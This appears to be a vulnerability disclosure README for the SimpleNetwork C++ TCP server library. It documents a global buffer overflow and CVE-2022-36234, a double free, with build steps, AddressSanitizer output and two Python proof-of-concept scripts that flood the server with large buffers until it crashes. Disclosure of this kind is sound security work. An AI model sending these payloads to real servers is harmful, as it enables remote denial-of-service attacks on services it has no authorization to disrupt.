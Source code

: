 ## Compiling the project

```
$ cd src
$ make
$ cd ../example-server
$ make
```

## Global Buffer Overflow


Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 suffers from a global buffer overflow when the TCPServer receives a single large packet containing ASCII characters. Using the following python3 script will invoke a global buffer overflow:

```
import socket

host = "localhost"
port = 1234                   
buf = b'A'*50000

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.sendall(buf)
    data = s.recv(1024)
    s.close()
    print('Received', repr(data))
except:
    print("Finished...")
```


#### Compiling the project with address sanitizer helps confirm this issue.  Here is the makefile for the example TCPServer:

```
all: 
        g++ -Wall -o server server.cpp -I../src/ ../src/TCPServer.cpp ../src/TCPClient.cpp -std=c++11 -lpthread -fsanitize=address

```


Address Sanitizer Output:

```
=================================================================
==15095==ERROR: AddressSanitizer: global-buffer-overflow on address 0xaaaae7e8f5c0 at pc 0xaaaae7e5b684 bp 0xffffa1efe720 sp 0xffffa1efe738
WRITE of size 1 at 0xaaaae7e8f5c0 thread T2
    #0 0xaaaae7e5b680 in TCPServer::Task(void*) (/home/kali/projects/SimpleNetwork/example-server/server+0xb680)
    #1 0xffffa595edd4 in start_thread nptl/pthread_create.c:442
    #2 0xffffa59c7e58 in thread_start ../sysdeps/unix/sysv/linux/aarch64/clone.S:79

0xaaaae7e8f5c0 is located 0 bytes to the right of global variable 'msg' defined in '../src/TCPServer.cpp:3:6' (0xaaaae7e855c0) of size 40960
0xaaaae7e8f5c0 is located 32 bytes to the left of global variable 'num_client' defined in '../src/TCPServer.cpp:4:5' (0xaaaae7e8f5e0) of size 4
SUMMARY: AddressSanitizer: global-buffer-overflow (/home/kali/projects/SimpleNetwork/example-server/server+0xb680) in TCPServer::Task(void*)
Shadow bytes around the buggy address:
  0x15655cfd1e60: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x15655cfd1e70: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x15655cfd1e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x15655cfd1e90: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x15655cfd1ea0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x15655cfd1eb0: 00 00 00 00 00 00 00 00[f9]f9 f9 f9 04 f9 f9 f9
  0x15655cfd1ec0: f9 f9 f9 f9 04 f9 f9 f9 f9 f9 f9 f9 01 f9 f9 f9
  0x15655cfd1ed0: f9 f9 f9 f9 00 00 00 f9 f9 f9 f9 f9 00 00 00 f9
  0x15655cfd1ee0: f9 f9 f9 f9 00 00 00 00 00 00 f9 f9 f9 f9 f9 f9
  0x15655cfd1ef0: 00 00 00 00 01 f9 f9 f9 f9 f9 f9 f9 00 00 00 00
  0x15655cfd1f00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
Thread T2 created by T0 here:
    #0 0xffffa5dda234 in __interceptor_pthread_create ../../../../src/libsanitizer/asan/asan_interceptors.cpp:207
    #1 0xaaaae7e5c360 in TCPServer::accepted() (/home/kali/projects/SimpleNetwork/example-server/server+0xc360)
    #2 0xaaaae7e566bc in main (/home/kali/projects/SimpleNetwork/example-server/server+0x66bc)
    #3 0xffffa590777c in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0xffffa5907854 in __libc_start_main_impl ../csu/libc-start.c:381
    #5 0xaaaae7e543ec in _start (/home/kali/projects/SimpleNetwork/example-server/server+0x43ec)

==15095==ABORTING

```

# CVE-2022-36234

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow clients to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (on most systems this will already be installed):

```
sudo apt-get install build-essential git
```

The vulnerability can be reproduced by sending consecutive requests to the server containing a large buffer of characters in a TCP packet.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork
git checkout 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496
cd src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the host as needed):
```
import socket

host = "localhost"
port = 80                   # The same port as used by the server
buf = b'A'*10000

try:
    for i in range(50):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(buf)
        data = s.recv(1024)
        s.close()
        print('Received', repr(data))
except:
    print("Completed...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234
